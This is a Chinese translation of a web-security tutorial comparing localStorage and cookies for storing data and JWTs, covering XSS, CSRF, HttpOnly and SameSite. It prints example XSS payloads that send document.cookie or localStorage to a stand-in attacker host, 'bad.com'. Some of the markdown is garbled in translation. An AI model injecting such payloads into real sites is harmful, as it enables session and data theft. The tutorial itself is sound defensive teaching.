

# 本地存储与 Cookies:在客户端哪里安全地存储数据？

> 原文：<https://javascript.plainenglish.io/local-storage-vs-cookies-where-to-securely-store-data-on-the-client-side-de37bf050ca5?source=collection_archive---------12----------------------->



在客户端哪里存储数据？Cookies 还是本地存储？哪个更适合缓存，哪个更持久？哪个更安全，哪个容易受到 [XSS](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a) 和 [CSRF](https://owasp.org/www-community/attacks/csrf) 的攻击？在哪里存放您的 JWT 访问令牌？在这篇文章中找到答案！

首先，让我们讨论它们是什么，并检查它们的优点和缺点:

**网络存储 API:**

本地存储和会话存储，统称为 Web 存储 API，提供了在浏览器中存储 *key: value* 对的机制，并被视为 cookiess 的替代方案，cookie 早期用于在浏览器中存储应用程序数据。许多应用程序使用这些来缓存数据以实现更快的访问，或者存储和持久化重要信息，如授权令牌或其他数据。

会话存储保存数据直到浏览器选项卡或会话关闭，本地存储保存数据直到被用户或代码手动删除。除此之外，本地和会话存储是相同的。以下是如何使用它们:

```
localStorage.setItem(key, value);        //set value with key
localStorage.getItem(key);               //get value with key
localStorage.removeItem(key);            //remove the key value pair
```

键和值必须是字符串。localStorage 本身是一个简单的 JavaScript 对象。

**饼干:**

HTTP cookie 是一个字符串，像本地和会话存储一样存储在浏览器中。Cookie 由 web 服务器创建并发送给客户端，作为 HTTP 响应的一部分，包括" *Set-Cookie"* 头:

```
Set-Cookie: key=value
```

然后，客户端的浏览器存储这个 cookie(作为一个 key=value 对的字符串),并在每个后续的 HTTP 请求中将其发送给服务器。这些可以用来维护 HTTP 通信的客户端状态(比如会话信息)，这是无状态的。

请注意，cookies 也可以从客户端添加。按 f12 打开开发人员工具，导航到控制台并执行以下代码:

```
document.cookie = "mykey=myvalue"
```

现在转到应用程序选项卡-> cookie，您将能够在您的 cookie 中看到 mykey=myvalue。在 web 存储 API 发明之前，许多开发人员利用这一点在浏览器中持久存储或缓存数据。

# **本地存储与用于存储、持久化和缓存数据的 cookie:**

**持久性:**本地存储没有到期时间。它必须由用户删除或使用 localStorage.removeItem()函数删除。Cookies 有两种类型:

*   **会话 Cookies**:这些 cookie 会持续到浏览器会话结束。
*   **永久 Cookies** :在*Expires*属性*指定的日期和时间删除。*

**大小:**本地存储(每个域 5 MB)比 cookies(每个域 4 KB)大得多。

**数据类型:**本地存储是可以存储 key: value (string，string)对的对象。如果你想存储 JSON 数据，你必须先把它转换成字符串，幸好有一个简单的方法可以做到这一点:

```
//object to string and store
JSON.stringify(object_to_be_stored) //stored string back to object
JSON.parse(string_value_from_local_storage)
```

cookie 是这种格式的字符串:*“key 1 = value 1；key2 = value2"*。要访问它，使用 *document.cookie，*然而，要获得一个特定的键值对，您必须解析这个字符串。

还要记住，将数据存储在 cookies 中意味着它将随每个 HTTP 请求一起发送，从而浪费带宽。这就是为什么 cookie 的大小被限制为 4 KB。

# **安全:**

现在最重要的讨论来了:哪个更安全，哪个能被偷？让我们以 XSS 和 CSRF 攻击为背景来看看这一点，这些攻击是窃取信息和在客户端执行恶意操作的常见方式。

跨站脚本(XSS)攻击是一种注入式攻击，在这种攻击中，恶意脚本可能被注入到文档中并被执行。[这里有一篇短文总结了这类攻击以及如何防范它们](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a)。

[跨站点请求伪造(CSRF)](https://owasp.org/www-community/attacks/csrf) 是一种攻击模式，攻击者欺骗受害者向他们已经通过身份验证的站点发送恶意请求，以执行不想要的操作。由于浏览器会自动在 HTTP 请求中包含某些信息，如 cookies 和 IP 地址，因此易受攻击网站的服务器可能无法区分受害者被操纵发送的伪造请求和真实请求。

**Cookies** 易受 XSS(跨站点脚本)和 CSRF(跨站点请求伪造)攻击，但有办法减轻它们。

让我们看看一个恶意代理如何通过将以下脚本注入到您的网站(XSS)来窃取属于特定域的 cookies。从今以后，我将把您的网站(易受攻击的网站)称为“**”*，把攻击者的网站(恶意网站)称为*”****bad.com****:**

```
**<script>fetch("http://www.bad.com?stolenGoods=" + document.cookie)</script>**
```

**如果这个脚本被您的文档执行，它会将您网站上用户的 cookie(*good.com)*连同请求一起发送到攻击者的域(*bad.com*)，然后攻击者可以使用它来冒充*good.com*上的用户，或者获取您作为 cookie 的一部分存储的用户数据。**

**但是，cookies 中内置了一些机制来减轻此类攻击:**

****HttpOnly** :在服务器上设置 cookie 头时，可以将 cookie 指定为 HttpOnly。这将阻止使用“*document . cookie”*或任何其他 javascript 代码访问 cookie:**

```
**Set-Cookie: id=xyz; HttpOnly**
```

**请注意，将 cookie 设置为 HttpOnly 将使客户端 javascript 无法访问它，因此您不能为您在客户端创建的 cookie 设置该属性，这意味着它们仍然是不安全的，容易受到 XSS 的攻击！服务器设置的 cookies 呢？**

**有一种误解认为将 cookie 设置为 HttpOnly 可以防止它通过 XSS 攻击被窃取。虽然这阻止了 javascript 访问您的 cookie，但是您必须记住，cookie 总是作为报头与每个 HTTP 请求一起发送。这意味着攻击者仍然可以通过简单地向自己的服务器发送请求，从易受攻击的网站(【good.com】T4)(其中有一个 XSS 脚本在执行)访问用户的 cookie。cookie 将自动作为请求标题包含在内！！！**

```
**<script>fetch("http://www.bad.com")</script>
// the cookie will be there as part of the request header and bad.com's server can then access it**
```

**谢天谢地，有一种方法可以防止这种情况发生。**

****SameSite** :这个 cookie 属性指定了 cookie 是否/何时随跨站点请求一起发送的规则。**

```
**Set-Cookie: key=val; HttpOnly; SameSite=Strict
// the cookie will only be sent with http requests to the same site where it originated. good.com's cookies won't be sent in requests to bad.comSet-Cookie: key=val; HttpOnly; SameSite=Lax
// same as Strict, but cookie will also be sent if request to the site originates from another site.**
```

**注意，由于 SameSite = Lax，CSRF 攻击有可能利用这一点。*bad.com*可以向*good.com*发送一个请求，cookie 将包含在该请求中(即使*bad.com*本身无法读取 cookie)。**

****本地存储**也容易受到 XSS 攻击，但不会受到 CSRF 攻击。**本地存储只能在同一个域上访问**。没有简单的方法来防止本地存储数据被 XSS 攻击窃取。与 cookies 不同，没有任何属性可以阻止通过 javascript 访问本地存储(如果有，那就违背了本地存储的全部目的)。**

**因此，如下所示的 XSS 脚本可以窃取*good.com*上的本地存储数据，并将其发送到*bad.com*:**

```
**<script>fetch("http://www.bad.com?stolenGoods=window.localStorage")</script>**
```

**那么这是否意味着 cookies 在浏览器上存储数据比本地存储更安全呢？的确，我们可以严格限制读取 cookies 的能力，只允许 good.com 的服务器读取，而本地存储数据可以被攻击者通过 XSS 攻击访问。**

**请注意，这只适用于服务器设置的 cookies。如果您想通过以下方式将用户的信用卡信息作为 cookie 添加到浏览器中进行缓存，它将像本地存储数据一样容易受到 XSS 攻击，因为您不能将其设置为 HttpOnly:**

```
**document.cookie = "creditCardNumber=XXXXXXXXXX; HttpOnly"
//won't workdocument.cookie = "creditCardNumber=XXXXXXXXXX;"
//works but can be accessed by JavaScript, hence vulnerable to XSS**
```

**为了总结安全性讨论，让我们看看应该使用什么来在客户端存储和缓存数据，以及应该在哪里存储只需要由服务器访问的数据，如 auth 令牌:**

****在客户端存储数据**(用于缓存或持久化):您可以使用两个选项中的任何一个，因为它们都是同等安全的(或者说，同等不安全)。本地存储数据不能跨站点访问，cookies 也可以使用 *SameSite=strict，*进行限制，但它们都可以通过 JavaScript 访问，因此容易受到 XSS 的攻击，如果不是 CSRF 的话。**

**本地(或会话)存储更可取，因为它的大小更大(对于 cookies 是 5 MB 对 4 KB ),并且它不随每个 HTTP 请求一起发送，因此节省了带宽。**

****为服务器端**(如 JWTs)存储会话信息:服务器设置这些 cookie，因此将它们标记为 HttpOnly 将防止客户端 JavaScript 访问它们，用 *SameSite=strict* 标记它们将不会允许这些 cookie 被发送到其他域，从而防止通过 XSS 或 CSRF 攻击的操纵。**

**另一方面，存储在本地存储器中的授权令牌可以通过 XSS 攻击被窃取。此外，cookies 会随请求自动发送，而对于本地存储中的令牌，您必须编写代码来手动设置 HTTP 请求的授权头。因此，Cookies 更适合这种情况。**

**此外，请注意，如果您的网站容易受到 XSS 攻击，没有什么是真正安全的。恶意脚本可以向 *good.com 的*服务器发送请求(cookie 会被自动收录，尽管如果是 HttpOnly 脚本无法读取)，然后通过另一个 HTTP 请求将*good.com*的响应发送到 *bad.com 的*服务器。因此，如果您的站点容易受到 javascript 注入攻击，它就完了！[在这里，您可以找到更多关于如何防止此类攻击的信息](https://medium.com/@akshaydagar98/xss-attacks-for-beginners-and-how-to-defend-against-them-79347514488a)。**

**请记住，在客户端没有什么是绝对安全的！**

***更多内容请看* [***说白了就是***](https://plainenglish.io/) *。***

***报名参加我们的* [***免费周报***](http://newsletter.plainenglish.io/) *。关注我们上* [***推特***](https://twitter.com/inPlainEngHQ) ， [***领英***](https://www.linkedin.com/company/inplainenglish/) ***，***[***YouTube***](https://www.youtube.com/channel/UCtipWUghju290NWcn8jhyAw)***，以及****[***不和***](https://discord.gg/GtDtUAvyhW) ***

*****用*** [***电路***](https://circuit.ooo/?utm=publication-post-cta) *为你的科技创业建立认知和采用。***